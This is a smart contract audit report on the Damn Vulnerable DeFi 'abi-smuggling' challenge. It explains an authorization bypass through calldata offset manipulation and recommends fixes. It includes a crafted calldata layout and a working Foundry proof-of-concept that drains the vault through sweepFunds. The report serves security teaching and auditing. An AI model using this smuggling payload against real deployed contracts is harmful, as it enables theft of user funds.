





# Smart Contract Security Audit Report

## Disclaimer
This audit report is not financial advice. It represents a best-effort review of the smart contract code at a specific point in time. No audit can guarantee the absence of all vulnerabilities. The findings and recommendations are based on the information available at the time of the audit.

---

## Audit Overview

| Item | Details |
|------|---------|
| **Project** | abi-smuggling (Damn Vulnerable DeFi v4) |
| **Repository** | https://damnvulnerabledefi.xyz |
| **Commit** | `ce9a34cc60645c8c3ef9b23069ea9756e2f93dc4` |
| **Audit Date** | 2026-02-27 |
| **Methodology** | GTDA (Goals, Tags, Diagram, Attack) |
| **Contracts in Scope** | 2 |
| **Total SLOC** | 80 |
| **Solidity Version** | =0.8.25 (pinned) |
| **Framework** | Foundry |

---

## Scope

### In-Scope Contracts
| File | SLOC |
|------|------|
| `src/abi-smuggling/AuthorizedExecutor.sol` | 40 |
| `src/abi-smuggling/SelfAuthorizedVault.sol` | 40 |

### Out of Scope
- Test files (`test/abi-smuggling/`)
- Library dependencies (`lib/` — OpenZeppelin, Solady, forge-std)
- Other Damn Vulnerable DeFi challenges
- `DamnValuableToken.sol` (standard ERC20, no custom logic relevant to this audit)

---

## Executive Summary

The abi-smuggling protocol is a permissioned token vault (`SelfAuthorizedVault`) that uses a custom authorization scheme (`AuthorizedExecutor`) to gate function execution. The vault holds 1 million DVT tokens and permits limited periodic withdrawals (1 ETH max, 15-day cooldown) and an unrestricted emergency sweep function. Authorization is enforced by mapping `(function selector, caller address, target contract)` tuples to permission flags, checked inside a generic `execute()` dispatcher that forwards calls to the vault via self-call.

### Security Posture: CRITICAL

The audit identified a critical authorization bypass vulnerability in `AuthorizedExecutor.execute()`. The function uses inline assembly to read the function selector from a hardcoded calldata position (byte 100), but forwards the Solidity-decoded `actionData` parameter to the actual call. Since the ABI encoding of a `bytes` parameter includes a caller-controlled offset pointer, an attacker can craft calldata where the permission check reads one selector (authorized) while the execution runs a completely different function (unauthorized). This allows any user with any permission to execute any function on the vault — including `sweepFunds`, which drains the entire balance in a single transaction.

The `SelfAuthorizedVault` contract itself is well-implemented. Its `onlyThis` modifier, withdrawal limits, time restrictions, and target validation in `_beforeFunctionCall` are all correct. The vulnerability is entirely in the parent `AuthorizedExecutor`'s calldata parsing logic. The fix is straightforward: replace the assembly-based hardcoded read with `bytes4(actionData[:4])` to ensure the permission check always reads from the same data that gets executed.

**Areas of strength:**
- Correct use of `ReentrancyGuard` on the sole entry point
- Proper CEI (Checks-Effects-Interactions) pattern in `withdraw()`
- Target restriction via `_beforeFunctionCall` preventing calls to arbitrary contracts
- Use of well-audited libraries (OpenZeppelin, Solady)

---

## Findings Summary

### By Severity

| Severity | Count | Status |
|----------|-------|--------|
| Critical | 1 | Open |
| High | 0 | — |
| Medium | 0 | — |
| Low | 1 | Open |
| Informational | 1 | Open |
| **Total** | **3** | |

### Findings Table

| ID | Title | Severity | Contract | Status |
|----|-------|----------|----------|--------|
| C-01 | ABI Smuggling — Authorization Bypass via Calldata Offset Manipulation | Critical | AuthorizedExecutor.sol | Open |
| L-01 | Unprotected Initialization — Front-Running setPermissions | Low | AuthorizedExecutor.sol | Open |
| I-01 | Irrevocable Permissions — No Admin Recovery Path | Info | AuthorizedExecutor.sol | Open |

---

## Detailed Findings

### [C-01] ABI Smuggling — Authorization Bypass via Calldata Offset Manipulation

**Severity:** Critical
**Difficulty:** Low
**Contract:** `AuthorizedExecutor.sol`
**Lines:** L46-L61

#### Description

The `execute()` function reads the function selector from a hardcoded calldata position (byte 100) using inline assembly, but forwards the Solidity-decoded `actionData` parameter to `Address.functionCall()`. The ABI encoding of `bytes calldata` includes an offset pointer (word 2 in calldata) that the caller fully controls. By manipulating this offset, an attacker creates a divergence: the permission system checks one function selector while the actual call executes a completely different function.

#### Root Cause

Standard ABI encoding for `execute(address, bytes)`:
```
Byte 0-3:    execute() selector (0x1cff79cd)
Byte 4-35:   target address (word 1)
Byte 36-67:  offset pointer to bytes data (word 2) — normally 0x40
Byte 68-99:  length of bytes data (word 3)
Byte 100+:   bytes data content (actionData)
```

The code calculates `calldataOffset = 4 + 32 * 3 = 100` and reads the selector from that fixed position:

```solidity
function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
    bytes4 selector;
    uint256 calldataOffset = 4 + 32 * 3; // hardcoded to byte 100
    assembly {
        selector := calldataload(calldataOffset) // always reads byte 100
    }

    if (!permissions[getActionId(selector, msg.sender, target)]) { // checks byte-100 selector
        revert NotAllowed();
    }

    _beforeFunctionCall(target, actionData);

    return target.functionCall(actionData); // executes Solidity-decoded actionData
}
```

This only works when the offset pointer is `0x40` (64). If the attacker sets the offset to `0x80` (128), Solidity's decoder reads `actionData` from byte 132 (length) / byte 164 (content), while the assembly still reads byte 100. The attacker places an authorized selector at byte 100 as a decoy.

#### Prerequisites

- Attacker must have at least one valid permission (any selector, for the vault target)
- Vault must hold tokens
- No other prerequisites — single transaction, no flash loan, no MEV, no timing constraints

#### Attack Scenario

Crafted calldata layout:
```
Byte 0-3:     1cff79cd            execute() selector
Byte 4-35:    000...vault         target = vault address
Byte 36-67:   000...0080          offset = 0x80 (MANIPULATED, normally 0x40)
Byte 68-99:   000...0000          padding (unused space)
Byte 100-131: d9caed12 000...     DECOY: withdraw selector (passes permission check)
Byte 132-163: 000...0044          length of real actionData = 68 bytes
Byte 164+:    85fb709d ...        REAL PAYLOAD: sweepFunds(recovery, token)
```

1. Player has legitimate permission for `withdraw` (`0xd9caed12`) on the vault
2. Player sends raw calldata to `execute()` with offset pointer set to `0x80`
3. Assembly reads byte 100 -> `0xd9caed12` (withdraw) -> permission check **passes**
4. `_beforeFunctionCall` checks target == vault -> **passes**
5. `functionCall` follows Solidity-decoded offset `0x80` -> executes `sweepFunds(recovery, DVT)`
6. **Entire vault balance (1,000,000 DVT) transferred to attacker**



#### Impact

- **100% of vault funds stolen** (1,000,000 DVT)
- Any user with ANY permission can drain the vault
- Single transaction, zero capital required, irreversible
- Breaks protocol invariants: #1 (authorization enforcement), #2 (selector integrity), #5 (sweepFunds access control), #10 (tamper-proof calldata parsing)

#### Recommendation

Replace the inline assembly calldata read with Solidity's native parameter access:

```solidity
function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
    // Extract selector from the Solidity-decoded actionData parameter
    bytes4 selector = bytes4(actionData[:4]);

    if (!permissions[getActionId(selector, msg.sender, target)]) {
        revert NotAllowed();
    }

    _beforeFunctionCall(target, actionData);

    return target.functionCall(actionData);
}
```

This ensures the permission check always reads the selector from the same data that `functionCall` executes, eliminating any divergence regardless of ABI encoding format.

#### Proof of Concept

```solidity
function test_abiSmuggling() public checkSolvedByPlayer {
    bytes memory sweepCalldata = abi.encodeCall(
        SelfAuthorizedVault.sweepFunds, (recovery, IERC20(address(token)))
    );

    bytes memory smuggledCalldata = abi.encodePacked(
        bytes4(0x1cff79cd),                       // execute() selector
        uint256(uint160(address(vault))),           // target = vault
        uint256(0x80),                              // offset = 0x80 (manipulated)
        uint256(0),                                 // padding
        bytes32(bytes4(0xd9caed12)),                // DECOY: withdraw selector at byte 100
        uint256(sweepCalldata.length),              // length of real actionData
        sweepCalldata                               // REAL: sweepFunds calldata
    );

    (bool success, ) = address(vault).call(smuggledCalldata);
    require(success, "Smuggled call failed");
}
```

---

### [L-01] Unprotected Initialization — Front-Running setPermissions

**Severity:** Low
**Difficulty:** Low
**Contract:** `AuthorizedExecutor.sol`
**Lines:** L25-L38

#### Description

`setPermissions()` has no access control beyond a one-time `initialized` flag. Any address can call it as the first caller, enabling front-running during deployment.

```solidity
function setPermissions(bytes32[] memory ids) external {
    if (initialized) {
        revert AlreadyInitialized();
    }
    for (uint256 i = 0; i < ids.length;) {
        unchecked {
            permissions[ids[i]] = true;
            ++i;
        }
    }
    initialized = true;
    emit Initialized(msg.sender, ids);
}
```

#### Prerequisites

- Vault must be freshly deployed and not yet initialized
- Attacker must observe and front-run the deployer's initialization transaction
- Does NOT apply if deployment and initialization are atomic

#### Attack Scenario

1. Deployer deploys `SelfAuthorizedVault` (transaction A)
2. Deployer sends `setPermissions([...])` (transaction B)
3. Attacker front-runs transaction B with `setPermissions([attackerPermission])`
4. Deployer's transaction reverts with `AlreadyInitialized`
5. Attacker now controls the vault's authorization policy

Alternative: Attacker calls `setPermissions([])` with an empty array, permanently bricking the contract with zero permissions and no way to add more.

#### Impact

- Attacker gains full control of vault authorization, OR
- Vault is permanently bricked with no recovery path
- Mitigated by low likelihood (requires non-atomic deployment pattern)

#### Recommendation

```solidity
address public immutable deployer;

constructor() {
    deployer = msg.sender;
}

function setPermissions(bytes32[] memory ids) external {
    if (msg.sender != deployer) revert NotDeployer();
    if (initialized) revert AlreadyInitialized();
    // ...
}
```

Or combine deployment and initialization into a single atomic factory transaction.

---

### [I-01] Irrevocable Permissions — No Admin Recovery Path

**Severity:** Informational
**Contract:** `AuthorizedExecutor.sol`
**Lines:** L25-L38

#### Description

Permissions can only be set to `true` and only during the single `setPermissions()` call. There is no mechanism to revoke, add, or modify permissions after initialization. If a permissioned key is compromised or a permission is set incorrectly, the entire vault must be redeployed and funds migrated.

#### Recommendation

Consider adding a permission revocation mechanism with appropriate access control (e.g., multi-sig or timelock), or document this as an accepted design limitation with a migration plan for key compromise scenarios.

---

## Acknowledged Risks

- **Deployer has unrestricted `sweepFunds` access:** The deployer is authorized to drain the entire vault at any time via `execute()`. This is by design as an emergency recovery mechanism, but represents a centralization risk. Users must trust the deployer.

---

## Protocol Analysis

### Protocol Type & Goals

A permissioned token vault with a custom authorization scheme. The vault holds ERC20 tokens and restricts withdrawals through a generic `execute()` dispatcher that maps `(selector, caller, target)` tuples to boolean permissions. Two withdrawal modes exist: rate-limited `withdraw()` (max 1 ETH per 15 days) and unrestricted `sweepFunds()` (emergency full drain).

### Architecture Overview





The vault is a single deployed contract that calls itself via `Address.functionCall()`. This self-call pattern satisfies the `onlyThis` modifier on `withdraw()` and `sweepFunds()`. There are no cross-contract interactions beyond ERC20 token transfers.

### Token/Value Flow



- **Entry:** Direct ERC20 `transfer()` from deployer during setup
- **Storage:** All tokens held as ERC20 balance in `SelfAuthorizedVault`
- **Exit (limited):** `withdraw()` — max 1 ETH, 15-day cooldown
- **Exit (emergency):** `sweepFunds()` — entire balance, no limits

### Protocol State Machine



### Storage Layout

| Slot | Variable | Type | Purpose |
|------|----------|------|---------|
| 0 | `_status` | uint256 | ReentrancyGuard lock state |
| 1 | `initialized` | bool | One-time initialization flag |
| 2 | `permissions` | mapping(bytes32 => bool) | Action ID authorization map |
| 3 | `_lastWithdrawalTimestamp` | uint256 | Timestamp of last withdrawal |

### Trust Assumptions

- **First caller to `setPermissions` is trusted** — defines the entire authorization policy with no access control
- **Deployer is trusted with `sweepFunds`** — can drain all vault funds at any time
- **ABI encoding is standard** — the hardcoded calldata offset assumes standard encoding (violated by C-01)
- **Permissions are permanent** — no recovery from misconfiguration or key compromise

---

## Invariant Test Recommendations

| Invariant | Property | Priority |
|-----------|----------|----------|
| Selector Consistency | The selector used for permission check must match the first 4 bytes of actionData actually executed | High |
| Permission Enforcement | If `permissions[actionId] == false`, then `execute()` must revert | High |
| Vault Balance Monotonicity | Under legitimate use, balance decreases by at most `WITHDRAWAL_LIMIT` per `WAITING_PERIOD` | High |
| Initialization Access | Only the intended deployer should successfully call `setPermissions` | Medium |

---

## Appendices

### Appendix A: Vulnerability Checklist Results

**113 total checks: 22 passed, 85 N/A, 3 notes, 3 findings**

#### C1. Re-entrancy (7 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C1.1 | External calls before state updates | PASS | `withdraw` updates timestamp before transfer |
| C1.2 | Cross-function re-entrancy | PASS | `nonReentrant` prevents re-entry |
| C1.3 | Cross-contract re-entrancy | N/A | Single-contract protocol |
| C1.4 | Read-only re-entrancy | N/A | No view functions used externally |
| C1.5 | ERC777/1155/721 callbacks | N/A | Standard ERC20 only |
| C1.6 | receive()/fallback() re-entrancy | N/A | No ETH handling |
| C1.7 | ReentrancyGuard correctly applied | PASS | Applied to `execute()` |

#### C2. Access Control (7 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C2.1 | Missing access modifiers | **FINDING** | L-01: `setPermissions` unprotected |
| C2.2 | Incorrect permission checks | **FINDING** | C-01: Permission reads wrong selector |
| C2.3 | Default admin roles | N/A | No admin role system |
| C2.4 | Privilege escalation | **FINDING** | C-01: withdraw -> sweepFunds escalation |
| C2.5 | Initialization front-run | **FINDING** | L-01: `setPermissions` frontrunnable |
| C2.6 | Owner can rug | NOTE | Deployer has sweepFunds — by design |
| C2.7 | Two-step ownership | N/A | No ownership concept |

#### C3. Input Validation (6 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C3.1 | Zero address checks | NOTE | No validation on recipient/receiver |
| C3.2 | Zero amount checks | PASS | amount=0 is harmless |
| C3.3 | Array length mismatches | N/A | No multi-array functions |
| C3.4 | Bounds checking | PASS | WITHDRAWAL_LIMIT enforced |
| C3.5 | Duplicate array entries | NOTE | Duplicates accepted, no harm |
| C3.6 | Selector clashes | N/A | No proxy |

#### C4-C5. Oracle & Flash Loan (14 checks)
All N/A — no oracles, no share prices, no balance-based calculations.

#### C6. Front-Running / MEV (5 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C6.1-C6.4 | Slippage/deadline/commit-reveal/sandwich | N/A | No relevant operations |
| C6.5 | Transaction ordering | **FINDING** | L-01: setPermissions ordering |

#### C7. Denial of Service (8 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C7.1 | Unbounded loops | PASS | Bounded by input, called once |
| C7.2-C7.8 | All other DoS checks | N/A or PASS | No applicable patterns |

#### C8. Token & Accounting (13 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C8.5 | Decimal assumptions | PASS | Raw amounts used |
| C8.6 | Return value checks | PASS | Solady SafeTransferLib |
| C8.8 | Donation attacks | PASS | Donations not exploitable |
| C8.12 | Non-bool tokens | PASS | SafeTransferLib handles |
| Others | — | N/A | DVT is standard ERC20 |

#### C9. DeFi-Specific (10 checks)
All N/A — not a DeFi protocol.

#### C10. Unsafe External Interactions (5 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C10.1 | Unchecked call returns | PASS | OZ Address.functionCall reverts |
| C10.4 | Return data validation | PASS | Data passed through |
| C10.5 | Contract existence check | PASS | functionCall checks code size |
| Others | — | N/A | No delegatecall or signatures |

#### C11. Logic & State (10 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C11.1 | Incorrect operator | PASS | `<=` is intentional |
| C11.2 | Off-by-one | PASS | Loop correct |
| C11.3-C11.5 | State/dead code/inheritance | PASS | All correct |
| C11.7 | Missing events | NOTE | withdraw/sweepFunds emit no events |
| Others | — | N/A | No enums/structs/casting |

#### C12. Gas & EVM (9 checks)
| # | Check | Result | Notes |
|---|-------|--------|-------|
| C12.1-C12.3 | Gas/storage/encodePacked | PASS | All correct |
| C12.5 | Compiler version | PASS | 0.8.25 is current |
| C12.6 | Unchecked overflow | PASS | Bounded increment |
| C12.7 | Returnbomb | PASS | No gas-limited subcalls |
| Others | — | N/A | No tstore or applicable patterns |

#### C13-C15. Proxy, Signatures, Cross-Chain (19 checks)
All N/A — no proxy patterns, no signatures, no cross-chain functionality.

### Appendix B: Files in Scope

| File | SLOC | Tags | Findings |
|------|------|------|----------|
| AuthorizedExecutor.sol | 40 | 11 | C-01, L-01, I-01 |
| SelfAuthorizedVault.sol | 40 | 3 | — |

### Appendix C: Methodology

**GTDA Methodology:**

1. **Goals** — Understand protocol purpose, map token flows, define economic model, establish security invariants, identify trust assumptions
2. **Tags** — Systematic line-by-line code review tagging observations across 6 categories: security, math, logic, edge cases, unclear intent, and behavioral knobs
3. **Diagram** — Map inheritance, contract interactions, token/value flows, protocol state machine, storage layout, and trace all user-facing flows with sequence diagrams
4. **Attack** — Evaluate tags, combine knobs using the Attacker's Mindset framework, run a 113-item vulnerability checklist across 15 categories, and suggest invariant tests

**Attacker's Mindset Framework:**
Individual non-vulnerable behaviors ("knobs") are systematically combined in pairs and triples, with amplifiers (flash loans, MEV, re-entrancy, price manipulation), to discover complex vulnerabilities that automated tools miss. Common attack recipes guide the combination process.

**Severity Classification:**

| | High Likelihood | Medium Likelihood | Low Likelihood |
|---|---|---|---|
| **High Impact** | Critical | High | Medium |
| **Medium Impact** | High | Medium | Low |
| **Low Impact** | Medium | Low | Info |

### Appendix D: Tool & Technique Coverage

| Category | Items Checked | Findings |
|----------|--------------|----------|
| Re-entrancy | 7 | 0 |
| Access Control | 7 | 3 (C-01, L-01) |
| Input Validation | 6 | 0 |
| Oracle & Price | 9 | 0 (N/A) |
| Flash Loan | 5 | 0 (N/A) |
| Front-Running | 5 | 1 (L-01) |
| Denial of Service | 8 | 0 |
| Token & Accounting | 13 | 0 |
| DeFi-Specific | 10 | 0 (N/A) |
| External Interactions | 5 | 0 |
| Logic & State | 10 | 0 |
| Gas & EVM | 9 | 0 |
| Upgradeability | 8 | 0 (N/A) |
| Signatures | 6 | 0 (N/A) |
| Cross-Chain | 5 | 0 (N/A) |
| **Total** | **113** | **3** |

---

*This report was generated using the GTDA smart contract audit methodology with the Attacker's Mindset framework.*
